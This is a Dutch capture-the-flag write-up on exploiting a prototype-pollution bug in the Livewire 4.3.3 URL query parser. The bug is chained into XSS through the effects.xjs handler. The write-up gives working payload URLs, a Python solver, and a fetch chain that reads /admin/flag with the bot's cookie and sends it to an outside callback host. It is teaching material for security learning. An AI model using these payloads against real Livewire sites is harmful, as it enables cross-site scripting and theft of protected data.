






# Writeup Livewire-Inbox

De challenge draait om een message archive dat met Laravel en Livewire is gebouwd. Op de pagina staat dat we een volledige archive-URL kunnen insturen bij `Staff Review`.

Het doel is dus een URL maken die JavaScript uitvoert wanneer de staff-browser deze opent. Vanuit die browser kunnen we vervolgens bij de flag komen.



## Local setup

De challenge kan met Docker worden gestart:
Let op dat de productieomgeving draait achter Traefik met TLS. Daarom forceert `AppServiceProvider.php` HTTPS:

```php
URL::forceScheme('https');
```
Die line even uit commenten en dan docker starten

```bash
docker compose build --no-cache
docker compose up -d
```

De applicatie is daarna beschikbaar op:

```text
http://localhost:8092
```


## Eerste checks

Op de pagina zien we een tabel met berichten en deze tekst:

```text
Submit the full archive URL through Staff Review on the CTF challenge overview page.
```

In de source staat daarnaast een interessante route:

```php
Route::get('/admin/flag', function (Request $request) {
    if (!hash_equals((string) env('FLAG'), (string) $request->cookie('review_session'))) abort(403);
    return response((string) env('FLAG'))->header('Content-Type', 'text/plain');
});
```

Als we zelf naar `/admin/flag` endpoint gaan krijgen we een `403`. De route geeft de flag alleen terug wanneer de cookie `review_session` gelijk is aan de flag. De staff-browser heeft deze cookie wel.

De cookie hoeft niet rechtstreeks leesbaar te zijn vanuit JavaScript. Een same-origin request naar `/admin/flag` stuurt de cookie automatisch mee en geeft de flag als plain text terug.



## Source checken

In `composer.json` zien we dat de challenge Livewire `4.3.3` gebruikt:

```json
"require": {
  "php": "^8.2",
  "laravel/framework": "12.68.0",
  "livewire/livewire": "4.3.3"
}
```

Als we naar de livewire repo gaan zien we daar een Security Report: (https://github.com/livewire/livewire/security/advisories/GHSA-g3hc-697w-wm82)

Hier zien we dat de chall kwetsbaar is voor XSS

Nu kunnen we gaan patch diffen en checken waar het mogelijk zit: 
(https://github.com/livewire/livewire/compare/v4.3.3...v4.3.4)



De Livewire-component heeft een property met het gedocumenteerde `#[Url]`-attribute:

```php
class MessageArchive extends Component
{
    #[Url(as: 'messagePage')]
    public int $page = 1;

    public function loadTable(): void
    {
    }
}
```

Hierdoor houdt Livewire de property `$page` bij onder de queryparameter `messagePage`.

In de bijbehorende Blade-view staat ook `wire:init`:

```html
<section wire:init="loadTable">
```

`wire:init` roept direct na het initialisen van de component de method `loadTable` aan. De method zelf doet niets, maar veroorzaakt wel een tweede Livewire-request. Die extra request wordt later belangrijk voor de exploit.

## Prototype pollution in de query-string parser

Livewire leest de URL opnieuw in de browser om properties met `#[Url]` te parsen. De kwetsbare parser zet bracket notation om naar een pad met punten:

source: [Livewire v4.3.3 – `js/plugins/history/index.js` lines 264-268](https://github.com/livewire/livewire/blob/v4.3.3/js/plugins/history/index.js#L264-L268)

```javascript
let decodedKey = decodeURIComponent(key)

let dotNotatedKey = decodedKey
    .replaceAll('[', '.')
    .replaceAll(']', '')
```

Deze key:

```text
messagePage.x[__proto__][xjs][0][expression]
```

wordt daardoor:

```text
messagePage.x.__proto__.xjs.0.expression
```

Vervolgens maakt deze recursieve functie de objecten en arrays voor ieder onderdeel van het pad:

Bron: [Livewire v4.3.3 – `js/plugins/history/index.js` lines 236-249](https://github.com/livewire/livewire/blob/v4.3.3/js/plugins/history/index.js#L236-L249)

```javascript
let insertDotNotatedValueIntoData = (key, value, data) => {
    let [first, second, ...rest] = key.split('.')

    if (! second) return data[key] = value

    if (data[first] === undefined) {
        data[first] = isNaN(second) ? {} : []
    }

    insertDotNotatedValueIntoData(
        [second, ...rest].join('.'),
        value,
        data[first]
    )
}
```

Het root-object heeft wel een null prototype:

Bron: [Livewire v4.3.3 – `js/plugins/history/index.js` lines 253-256](https://github.com/livewire/livewire/blob/v4.3.3/js/plugins/history/index.js#L253-L256)

```javascript
let data = Object.create(null)
```

Maar de nested objecten worden met een normale `{}` gemaakt. Daardoor hebben deze objecten wel toegang tot `Object.prototype`.

Wanneer de parser bij `__proto__` komt, gebeurt in feite dit:

```javascript
data['__proto__'] === Object.prototype
```

Die waarde is niet `undefined`, dus Livewire maakt geen nieuw object. De recursie gaat verder in het globale `Object.prototype` en maakt daar uiteindelijk deze property:

```javascript
Object.prototype.xjs = [
    {
        expression: 'alert(document.domain)',
        params: { x: '1' }
    }
]
```

Dit is de prototype-pollution source. Op zichzelf voert dit nog geen JavaScript uit; daarvoor hebben we ook een gadget nodig dat de polluted property gebruikt.

## Van prototype pollution naar XSS

Livewire heeft een effect-handler voor JavaScript dat door de server moet worden uitgevoerd:

Bron: [Livewire v4.3.3 – `js/features/supportJsEvaluation.js` lines 13-32](https://github.com/livewire/livewire/blob/v4.3.3/js/features/supportJsEvaluation.js#L13-L32)

```javascript
on('effect', ({ component, effects }) => {
    let js = effects.js
    let xjs = effects.xjs

    if (xjs) {
        xjs.forEach(({ expression, params }) => {
            params = Object.values(params)

            evaluateExpression(
                component.el,
                expression,
                { scope: component.getJsActions(), params }
            )
        })
    }
})
```

De code gebruikt rechtstreeks `effects.xjs` en controleert niet of `xjs` een eigen property van het `effects`-object is. JavaScript zoekt bij normale property access ook in de prototype chain:

```javascript
Object.hasOwn(effects, 'xjs')
// false

effects.xjs === Object.prototype.xjs
// true
```

De handler ziet de inherited `xjs`-array daardoor alsof deze door de Livewire-server is teruggestuurd. Daarna geeft `evaluateExpression()` onze expression door aan Alpine, waardoor deze als JavaScript wordt uitgevoerd.

## Waarom de punt na messagePage nodig is

De payload begint bewust met:

```text
messagePage.x[__proto__]...
           ^
```

PHP veranderd punten in queryparameternamen naar underscores. De server ziet hierdoor een andere outer parameter, zoals `messagePage_x`, en probeert de array niet in de typed integer-property `$page` te stoppen.

De browser krijgt wel de oorspronkelijke URL. Livewire herkent daar de prefix `messagePage.` en behandelt de bracket notation als nested data van de URL-property.

Dezelfde URL wordt dus door twee parsers anders geïnterpreteerd

## Waarom wire:init nodig is

Tijdens de eerste page load draait de JavaScript effect-handler voordat de query-string handler `Object.prototype` heeft aangepast. De eerste effect-cyclus voert onze expression daarom nog niet uit.

Daarna verwerkt de query-string handler de URL en ontstaat de prototype pollution. De `wire:init="loadTable"` uit de Blade-view stuurt vervolgens automatisch een normale Livewire-request. Het nieuwe `effects`-object uit die response en krijgt de polluted `xjs`-property en activeert de gadget:

```text
Eerste effects worden verwerkt
    -> effects.xjs bestaat nog niet
    -> query-string parser pollute Object.prototype
    -> wire:init verstuurt een Livewire-request
    -> nieuwe effects erven Object.prototype.xjs
    -> Alpine voert onze expression uit
```

We hoeven dus geen Livewire-request, checksum of CSRF-token te vervalsen. Het openen van de URL is genoeg.

## XSS testen

Een testpayload is:

```text
/?messagePage.x[__proto__][xjs][0][expression]=alert(document.domain)&messagePage.x[__proto__][xjs][0][params][x]=1
```

Het veld `expression` bevat de JavaScript die Alpine gaat eval(len). De extra `params[x]=1` zorgt dat `params` een object is wanneer de gadget `Object.values(params)` aanroept.

Na het openen van deze URL verschijnt een alert met de origin van de applicatie.




Door `wire:init` verschijnt automatisch een alert met `localhost`. Na het sluiten van de alert kunnen we in de browserconsole controleren dat de prototype pollution is gelukt:

```javascript
Object.hasOwn(Object.prototype, 'xjs')
// true

Object.prototype.xjs
// [{ expression: "alert(document.domain)", params: { x: "1" } }]
```



## Solve

Voor de echte solve gebruiken we een unieke [RequestRepo](https://requestrepo.com/)-URL als callback. De JavaScript-expression haalt eerst de flag op en stuurt deze daarna als queryparameter naar de callback:

```javascript
fetch('/admin/flag')
    .then(r => r.text())
    .then(d => fetch('<CALLBACK_URL>?d=' + encodeURIComponent(d)))
```

De rCTF Admin Bot heeft de HttpOnly-cookie `review_session`. Onze JavaScript kan die cookie niet rechtstreeks lezen, maar een same-origin `fetch('/admin/flag')` stuurt hem automatisch mee. De route geeft daardoor de flag terug.

De tweede request stuurt het antwoord URL-encoded naar RequestRepo. Omdat het versturen van een cross-origin GET-request niet afhankelijk is van het kunnen lezen van de response, komt de flag daar aan ondanks eventuele CORS-errors in de browserconsole.

De twee queryvelden zijn:

```text
messagePage.x[__proto__][xjs][0][expression]
messagePage.x[__proto__][xjs][0][params][x]
```

De leesbare PoC-URL ziet er zo uit:

```text
https://livewire-inbox-<instance>.chal.nhc.ehgn.nl/?messagePage.x[__proto__][xjs][0][expression]=fetch('/admin/flag').then(r=>r.text()).then(d=>fetch('<CALLBACK_URL>?d='+encodeURIComponent(d)))&messagePage.x[__proto__][xjs][0][params][x]=1
```

De solver maakt de payload met `urllib.parse.urlencode()`, zodat correct wordt encoded:

```python
with RequestRepo(host="rr.jtw.sh") as repo:
    expression = (
        "fetch('/admin/flag').then(r=>r.text())"
        f".then(d=>fetch({json.dumps(repo.url)}+'?d='+encodeURIComponent(d)))"
    )
    path = "/?" + urllib.parse.urlencode({
        "messagePage.x[__proto__][xjs][0][expression]": expression,
        "messagePage.x[__proto__][xjs][0][params][x]": "1",
    })
```

De volledige instance-URL wordt via de rCTF API bij de Admin Bot ingediend, en op onze exfil zien we de flag.

De volledige chain is dan:

1. De Admin Bot opent onze URL met zijn geldige HttpOnly `review_session`-cookie.
2. De Livewire query-string parser schrijft onze `xjs`-array naar `Object.prototype`.
3. `wire:init` zorgt voor een tweede Livewire effect-cyclus.
4. De `effects.xjs`-handler leest de inherited expression en laat Alpine deze uitvoeren.
5. `fetch('/admin/flag')` stuurt automatisch de bot-cookie mee en leest de flag.
6. De tweede `fetch()` stuurt de flag naar onze callback.

## Alternatieve solve via effects.scripts

Per schrijver had een andere mooie manier om dit te solven want blijkbaar was
de `xjs`-handler is niet de enige bruikbare gadget. Er is namelijk ook nog `effects.scripts`. Deze Livewire-handler verwerkt ieder item als een `<script>`-blok en stuurt de inhoud opnieuw naar Alpine:

Hoe je het op die manier oplost kun je zelf als extra challenge proberen.
